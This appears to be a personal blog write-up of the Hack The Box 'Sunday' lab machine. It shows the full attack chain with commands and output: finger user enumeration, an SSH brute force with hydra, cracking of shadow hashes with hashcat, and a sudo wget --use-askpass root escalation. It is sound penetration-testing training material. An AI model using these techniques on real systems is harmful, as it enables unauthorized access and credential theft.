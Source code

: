 ```yaml
---
date: '2024-08-12'
before : '2024-08-09'
after : '2024-08-13'
title: 'Hack The Box Sunday'
categories: [ 'hackthebox', 'pentest', 'ENG']
summary: 'Solving "Sunday" machine from HTB'
thumbnail: '../contentImages/sunday/sunday.png'
---
```


## 1. Machine Info

Sunday is an easy-rated, retired machine from Hack the Box. Well, I really didn't like this one since it was mainly about guessing or bruteforcing the credentials, including hash-cracking.

![sunday](../contentImages/sunday/sunday.png)

But it was still a good machine to repeat some basic stuffs which we don't always have in our mind.

> As always, let's dive into the machine!

## 2. Recon

Starting with nmap scan:

```
┌──(hosan㉿kali)-[~/oscp/htb-box/sunday]
└─$ sudo nmap 10.10.10.76 -Pn -sC -sV                                
[sudo] password for hosan: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-18 03:45 EDT
Stats: 0:02:00 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 66.67% done; ETC: 03:48 (0:00:45 remaining)
Nmap scan report for 10.10.10.76
Host is up (0.19s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
79/tcp  open  finger?
|_finger: No one logged on\x0D
| fingerprint-strings: 
|   GenericLines: 
|     No one logged on
|   GetRequest: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|   HTTPOptions: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|     OPTIONS ???
|   Help: 
|     Login Name TTY Idle When Where
|     HELP ???
|   RTSPRequest: 
|     Login Name TTY Idle When Where
|     OPTIONS ???
|     RTSP/1.0 ???
|   SSLSessionReq, TerminalServerCookie: 
|_    Login Name TTY Idle When Where
111/tcp open  rpcbind 2-4 (RPC #100000)
515/tcp open  printer
```
There is a service named "finger" on port 79. After a quick search:

> The Finger program/service is utilized for retrieving details about computer users. Typically, the information provided includes the user's login name, full name, and, in some cases, additional details.

I can't justify why someone would use this kind of service, but whatever.

## 3. Enumeration

Let's start with a basic interaction

```
┌──(hosan㉿kali)-[~/oscp/htb-box/sunday]
└─$ echo "root" | nc -vn 10.10.10.76 79
(UNKNOWN) [10.10.10.76] 79 (finger) open
Login       Name               TTY         Idle    When    Where
root     Super-User            ssh          <Dec  7, 2023> 10.10.14.46  
```
So it indeed shows us username. 


Let's try user enumeration from PentestMonkey.

```
──(hosan㉿kali)-[~/oscp/htb-box/sunday/finger-user-enum-1.0]
└─$ perl finger-user-enum.pl -U /usr/share/wordlists/seclists/Usernames/Names/names.txt -t 10.10.10.76 -p 79
Starting finger-user-enum v1.0 ( http://pentestmonkey.net/tools/finger-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Worker Processes ......... 5
Usernames file ........... /usr/share/wordlists/seclists/Usernames/Names/names.txt
Target count ............. 1
Username count ........... 10177
Target TCP port .......... 79
Query timeout ............ 5 secs
Relay Server ............. Not used

root@10.10.10.76: root     Super-User            ssh          <Dec  7, 2023> 10.10.14.46         ..
sammy@10.10.10.76: sammy           ???            ssh          <Apr 13, 2022> 10.10.14.13         ..
sunny@10.10.10.76: sunny           ???            ssh          <Apr 13, 2022> 10.10.14.13         ..
```
So we've got three user: root, sammy, sunny. Pretty obviously, root is (for now) out of scope.

## 4. Initial Foothold

Hmm, but I can't find any remote connection services. Let's try nmap once more with -p-

```
Not shown: 65530 closed tcp ports (reset)
PORT      STATE SERVICE   REASON
79/tcp    open  finger    syn-ack ttl 59
111/tcp   open  rpcbind   syn-ack ttl 63
515/tcp   open  printer   syn-ack ttl 59
6787/tcp  open  smc-admin syn-ack ttl 59
22022/tcp open  unknown   syn-ack ttl 63
```

Oh, so there was a ssh service running on port 22022! 


But here was a tricky part: we had to guess the password of our user. It happens if we look at some really old machines from HTB. I tried with days.txt since our user and machine's name is sunday.

```
┌──(hosan㉿kali)-[~/oscp/htb-box/sunday]
└─$ hydra -L users.txt -P /usr/share/wordlists/seclists/Passwords/days.txt ssh://10.10.10.76:22022  
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-18 05:05:17
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 12480 login tries (l:2/p:6240), ~780 tries per task
[DATA] attacking ssh://10.10.10.76:22022/
[STATUS] 166.00 tries/min, 166 tries in 00:01h, 12315 to do in 01:15h, 15 active
[STATUS] 155.33 tries/min, 466 tries in 00:03h, 12015 to do in 01:18h, 15 active
[STATUS] 141.57 tries/min, 991 tries in 00:07h, 11490 to do in 01:22h, 15 active
[STATUS] 136.07 tries/min, 2041 tries in 00:15h, 10440 to do in 01:17h, 15 active
[22022][ssh] host: 10.10.10.76   login: sunny   password: sunday
```

so as a result, we've got sunny:sunday.

```
┌──(hosan㉿kali)-[~]
└─$ ssh sunny@10.10.10.76 -p 22022                                              
(sunny@10.10.10.76) Password: 
Last login: Wed Apr 13 15:35:50 2022 from 10.10.14.13
Oracle Solaris 11.4.42.111.0                  Assembled December 2021
sunny@sunday:~$ 
```

Got it. But it is truly no fun to brute force or guess some random passwords.

## 5. Shell as sammy & root

I couldn't open user.txt. So let's try privesc. 


After playing around for a while, I found this:

```
sunny@sunday:/backup$ cat agent22.backup 
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

So we have this password hash, and I really hate it. And don't forget, that :6445.. at the end is not relevant.

```
┌──(hosan㉿kali)-[~/oscp/htb-box/sunday]
└─$ hashcat hash.txt /usr/share/wordlists/rockyou.txt -o cracked.txt
hashcat (v6.2.6) starting in autodetect mode
(used autodetection)


┌──(hosan㉿kali)-[~/oscp/htb-box/sunday]
└─$ cat cracked.txt 
$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:cooldude!
```

So I logged in as sammy. sudo -l shows us:

```
-bash-5.1$ sudo -l
User sammy may run the following commands on sunday:
    (ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```
Looking at GTFObins:

```
-bash-5.1$ TF=$(mktemp)
-bash-5.1$ chmod +x $TF
-bash-5.1$ echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
-bash-5.1$ sudo wget --use-askpass=$TF 0
root@sunday:/home/sammy# 
```
So I got root. That's it!

## 6. Review

Nah, I really didn't like this one. I tried to find a more "logical" way to get into the machine, but at the end, it was just brute-forcing...

## 7. Source

- HTB 2024
- Me!
